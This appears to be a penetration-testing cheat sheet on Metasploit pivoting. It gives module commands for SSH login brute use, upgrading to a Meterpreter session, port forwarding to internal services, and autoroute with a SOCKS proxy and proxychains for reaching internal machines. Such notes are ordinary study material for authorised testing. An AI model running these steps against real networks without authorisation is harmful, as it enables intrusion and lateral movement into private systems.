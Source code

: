 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## Port Forwarding with Metasploit

### 1) With SSH login

 - use auxiliary/scanner/ssh/ssh_login

 - set rhosts RHOSTS

 - set username USERNAME

 - set password PASSWORD

 - exploit

 - sessions -u 1 (Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter)

 - sessions 2

 - netstat -antp (Check for applications that run internally within the target)

 - portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1

## Tunneling with Metasploit

### 1) autoroute (Deprecated)

 - sessions

 - use post/multi/manage/autoroute

 - set session SESSION_NUM

 - exploit

 - use auxiliary/server/socks5

 - set srvhost 127.0.0.1

 - exploit

### Then go to web browser in Kali and make the manual proxy configuration settings

## TIP: Instead, we can use proxychains to connect to internal machines in the network

### Same steps apply to socks4a proxy
